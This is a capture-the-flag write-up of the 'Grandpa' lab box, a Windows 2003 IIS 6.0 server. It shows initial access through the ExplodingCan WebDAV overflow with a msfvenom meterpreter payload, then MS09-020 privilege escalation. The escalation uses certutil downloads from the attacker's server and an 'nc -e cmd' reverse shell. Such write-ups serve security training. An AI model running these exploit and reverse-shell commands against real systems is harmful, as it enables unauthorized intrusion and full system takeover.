







## Overview

Granpda is a Windows 2003 box running IIS 6.0 with webdav enabled. IIS was vulerable to the ScStoragePathFromUrl Remote Buffer Overflow. I used an NSA exploit that was leaked by the Shadow Brokers called ExplodingCan to get intial foothold. From there I used the windows exploit suggester tool and determined that the box was vulnerable to MS09-020 which allowed me to set up a meterpreter reverse shell and get a callback as 'nt authority\system'

## Enumeration

**Software**
* Microsoft(R) Windows(R) Server 2003, Standard Edition
* IIS 6.0
* ASP.NET 1.1.4322

**Port Scan**
```
nmap -vv -Pn -sT -A --osscan-guess -p- -oN /mnt/data/boxes/grandpa/_full_tcp_nmap.txt
```

* 80/tcp



**Nikto Scan**
```
nikto -h 10.10.10.14
```


**Davtest**

```
davtest -url http://10.10.10.14
```




## Steps (user)

Browsing to http://10.10.10.14 shows the default "Under Contruction" page. I ran a Nikto which showed some potential vulnerabilities but none of them applied. Gobuster also did not turn up anything useful. 

According to the nmap scan this server was running webdav so I ran a scan with a [davtest](https://tools.kali.org/web-applications/davtest) which is a tool that tests uploading different executable file types. All the tests failed so I moved on.

> Web Distributed Authoring and Versioning ([WebDAV](https://en.wikipedia.org/wiki/WebDAV)) is an extension to the HTTP protocol that allows creating, moving, copying, and deleting files/resources on remote web servers.

Internet Information Services 6.0 was released with Windows Server 2003 and is really old at this point. I ran a search in searchsploit for IIS 6.0 and there were a few results. 



I didn't have any luck with "WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow" (41738.py). I swapped out the shellcode in the script for my own and I got a shell but it immediately died. I did an internet search for other exploits that might exist for this vulnerability and I came across explodingcan.

> https://github.com/danigargu/explodingcan

I generated a staged meterpreter payload with msfvenom because the unstaged payload without meterpreter was calling back but immediately dropping the connection (like 41738.py).

I generated a payload with MSFVenom and output a file
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.22 lport=4200 -f raw -e x86/alpha_mixed > shellcode
```

I fired up metasploit and set up a meterpreter listener
```
msfdb run
set exploit/multi/handler
set payload 
set lhost 10.10.14.22
set lport 4200
set payload windows/meterpreter/reverse_tcp
run
```

From my box I ran the exploitcan script specifying the target IP and the name of the file that I saved the shellcode to.

```
explodingcan.py http://10.10.10.14 shellcode
```

I received a callback and shell as 'nt authority\network service'



## Steps (root/system)

I used Windows Exploit Suggester to look for kernel exploits to escalate privileges. This tool requires the output of the systeminfo command which I pasted to a file called "sysinfo.txt"

> [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) github repo.

I ran the systeminfo command on the target system, copied the output to sysinfo.txt, and fed it into wes.py
```
./windows-exploit-suggester.py -l --database 2019-11-17-mssb.xls --systeminfo sysinfo.txt
```



This box appeared to be vulnerable to MS09-020 which can be downloaded from here https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS09-020/MS09-020-KB970483-CVE-2009-1535-IIS6.zip. 

> This may go without saying but use caution when downloading/using exploits from sites like this where you can't view the source code to see what it's doing. 

I downloaded a copy of the exploit and netcat into my working directory, and started up a python http server.

```
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS09-020/MS09-020-KB970483-CVE-2009-1535-IIS6.zip
unzip MS09-020-KB970483-CVE-2009-1535-IIS6.zip
cd MS09-020-KB970483-CVE-2009-1535-IIS6
cp ~/tools/windows-binaries/nc.exe .
python3 -m http.server 80
```

On the target I used certutil to download netcat and the exploit to the box

```
cd c:\windows\temp
certutil -urlcache -split -f http://10.10.14.22/IIS6.0.exe
certutil -urlcache -split -f http://10.10.14.22/nc.exe
```

I then set up a netcat listener (rlwrap nc -lvnp 4201) and ran the exploit on the target box specifying netcat and the host and IP address of my box.

```
iis6.exe "nc -e cmd 10.10.14.22 4201"
```

I received shell as 'nt authority\system'


